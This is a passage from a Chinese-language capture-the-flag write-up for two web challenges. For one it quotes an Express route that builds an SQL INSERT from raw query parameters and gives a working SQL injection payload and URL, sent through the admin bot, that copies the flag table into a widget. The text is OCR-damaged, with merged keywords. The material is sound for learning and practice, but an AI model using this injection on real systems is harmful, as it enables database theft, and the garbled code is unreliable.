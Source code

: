 // /panel/widgetsquery = ` SELECTwidgetname, widgetdata FROMwidgets WHEREpanelid = ? `;// /panel/addquery = `ALUES (?, ?, ?) `;

前两处路由都做了预编译，显然无法注入，于是只能考虑第三处

app.get( '/admin/debug/add_widget', async(req, res) => {constcookies = req.cookies;constqueryParams = req.query;if(cookies[ 'token'] && cookies[ 'token'] == secret_token){query = `INSERT INTO widgets (panelid, widgetname, widgetdata) VALUES (' ${queryParams[ 'panelid']}', ' ${queryParams[ 'widgetname']}', ' ${queryParams[ 'widgetdata']}');`;db.run(query, (err) => {if(err){console.log(err);res.send( 'something went wrong');} else{res.send( 'success!');}});} else{res.redirect( '/');}});

这里只能admin才能进行访问，但这个题目同样有一个admin bot，所以我们只要构造好url让admin bot访问添加数据即可。

从源码中已知flag在flag表中，所以我们可以这么注入

?panelid=72a8ca36-fae5-4985-9742-b87b53e30222',( selectflag fromflag), '{"type":"time"}'); -- &widgetname=a&widgetdata=a

注意这里的panelid换成自己对应的panelid，通过上面的注入，相当于得到了下面的sql语句

INSERTINTOwidgets (panelid, widgetname, widgetdata) VALUES( '72a8ca36-fae5-4985-9742-b87b53e30222', ( selectflag fromflag), '{"type":"time"}'); -- ','a','a');

最终用请求的url编码一下就是

https: //build-a-panel.dicec.tf/admin/debug/add_widget?panelid=72a8ca36-fae5-4985-9742-b87b53e30222%27,(select%20*%20from%20flag),%27{"type":"time"}%27);%20--%20&widgetname=a&widgetdata=a

用admin bot发起请求后，在自己的/panel路径下就可以看到flag

![aa24d1dc5855bdf8ce86360c9dd78b17.png](img/f64c57dd53177227b29974bfd51300d5.png)

Web IDE

题目给了一个js代码编辑和运行页面，首先在源码中，很容易发现

app.post( '/ide/login', ( req, res) =>{const{ user, password } = req.body;switch(user) {case'guest':returnres.cookie( 'token', 'guest', {path: '/ide',sameSite: 'none',secure: true}).redirect( '/ide/');case'admin':if(password === adminPassword)returnres.cookie( 'token', `dice{ ${process.env.FLAG}}`, {path: '/ide',sameSite: 'none',secure: true}).redirect( '/ide/');break;}res.status( 401).end;});
